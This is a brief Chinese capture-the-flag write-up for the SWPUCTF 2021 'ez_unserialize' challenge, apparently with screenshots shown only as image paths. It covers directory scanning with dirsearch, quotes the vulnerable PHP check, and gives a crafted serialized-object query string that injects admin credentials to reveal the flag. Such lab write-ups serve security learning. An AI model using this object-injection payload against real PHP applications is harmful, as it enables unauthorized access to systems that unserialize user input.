




## [SWPUCTF 2021 新生赛]ez_unserialize
进入页面后除了胡桃甩葱舞没有任何信息
于是使用dirsearch扫描


进入robot子目录



漏洞点
```php
if($this->admin === "admin" && $this->passwd === "ctf")
```
于是构造恶意序列,发现flag
```php
/?p=O:4:"wllm":2:{s:5:"admin";s:5:"admin";s:6:"passwd";s:3:"ctf";}
```

